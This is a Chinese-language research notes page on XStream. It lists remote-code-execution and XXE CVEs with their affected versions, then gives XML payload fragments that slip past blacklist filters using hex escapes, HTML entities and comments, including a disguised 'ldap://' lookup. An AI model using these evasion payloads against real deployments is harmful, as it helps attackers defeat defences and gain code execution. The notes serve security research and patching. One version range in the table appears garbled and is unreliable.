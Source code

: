 ```yaml
---
title: "XStream漏洞汇总"
author: ["4shen0ne"]
draft: false
---
```


| XStream 远程代码执行漏洞 | CVE-2013-7285                                                    | 1.4.x&lt;XStream &lt;= 1.4.6&amp;=1.4.10 |
|------------------|------------------------------------------------------------------|------------------------------------------|
| XStream XXE      | [CVE-2016-3674](https://x-stream.github.io/CVE-2016-3674.html)   | 1.4.x&lt;XStream &lt;= 1.4.8             |
| XStream 远程代码执行漏洞 | CVE-2019-10173                                                   | XStream = 1.4.10                         |
| XStream 远程代码执行漏洞 | [CVE-2020-26217](https://x-stream.github.io/CVE-2020-26217.html) | 1.4.x&lt;XStream &lt;= 1.4.13            |
| XStream 远程代码执行漏洞 | [CVE-2021-21344](https://x-stream.github.io/CVE-2021-21344.html) | 1.4.x&lt;XStream: &lt;= 1.4.15           |
| XStream 远程代码执行漏洞 | [CVE-2021-21345](https://x-stream.github.io/CVE-2021-21345.html) | 1.4.x&lt;XStream: &lt;= 1.4.15           |
| XStream 远程代码执行漏洞 | [CVE-2021-21346](https://x-stream.github.io/CVE-2021-21346.html) | 1.4.x&lt;XStream: &lt;= 1.4.15           |
| XStream 远程代码执行漏洞 | [CVE-2021-21347](https://x-stream.github.io/CVE-2021-21347.html) | 1.4.x&lt;XStream&lt;= 1.4.15             |
| XStream 远程代码执行漏洞 | [CVE-2021-21350](https://x-stream.github.io/CVE-2021-21350.html) | 1.4.x&lt;XStream: &lt;= 1.4.15           |
| XStream 远程代码执行漏洞 | [CVE-2021-21351](https://x-stream.github.io/CVE-2021-21351.html) | 1.4.x&lt;XStream: &lt;= 1.4.15           |
| XStream 远程代码执行漏洞 | [CVE-2021-29505](https://x-stream.github.io/CVE-2021-29505.html) | 1.4.x&lt;XStream: &lt;= 1.4.16           |
| XStream 远程代码执行漏洞 | CVE-2021-39141                                                   | 1.4.x&lt;XStream: &lt;= 1.4.17           |
| XStream 远程代码执行漏洞 | CVE-2021-39144                                                   | 1.4.x&lt;XStream: &lt;= 1.4.17           |
| XStream 远程代码执行漏洞 | CVE-2021-39146                                                   | 1.4.x&lt;XStream: &lt;= 1.4.17           |
| XStream 远程代码执行漏洞 | CVE-2021-39148                                                   | 1.4.x&lt;XStream: &lt;= 1.4.17           |
| XStream 远程代码执行漏洞 | CVE-2021-39152                                                   | 1.4.x&lt;XStream: &lt;= 1.4.17           |
| XStream 远程代码执行漏洞 | CVE-2021-39154                                                   | 1.4.x&lt;XStream: &lt;= 1.4.17           |


## bypass {#bypass}


### 16 进制绕过 {#16-进制绕过}

黑名单为：org[.]springframework
payload:

```xml
<org.s_.0070ringframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
</org.s_.0070ringframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
```


### 针对标签属性内容的绕过 {#针对标签属性内容的绕过}

黑名单：custom
payload:

```xml
<org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor serialization="cust&#111;m">
</org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
```


### 针对标签内容的绕过 {#针对标签内容的绕过}

黑名单：ldap://
payload:

```xml
1. html 编码
<test>
&#108;dap://xxxxx
</test>

2. 注释
<test>
ld<!-- test -->ap://xxxxx
</test>
```
